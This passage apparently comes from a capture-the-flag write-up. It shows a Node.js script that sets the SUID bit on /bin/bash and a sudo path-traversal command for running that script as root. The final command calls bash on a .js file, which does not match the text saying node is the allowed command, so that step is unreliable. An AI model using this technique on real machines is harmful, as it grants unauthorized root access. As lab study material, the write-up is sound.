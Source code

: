 ### Privilege Escalation

- Create a nodeJS file to change the ```/bin/bash ``` permission

```
const {exec} = require("child_process");

exec("chmod u+s /bin/bash", (error, stdout, stderr)=>{
    if(error){
        console.log(`error: ${error.message}`);
        return;
    }
    if(stderr){
        console.log(`stderr: ${stderr}`);
        return;
    }
    console.log(`stdout: ${stdout}`);
});
```

![](./IMG/36.png)
- I tried to execute it directly, but it will failed.

![](./IMG/37.png)
- I think that is caused by the node command only allow to execute the file in the directory like folloing:
```
/usr/bin/node /usr/local/scripts
```
- Execute the js file like the following 
```
sudo /usr/bin/bash /usr/local/scripts/../../../home/lsExec.js
```
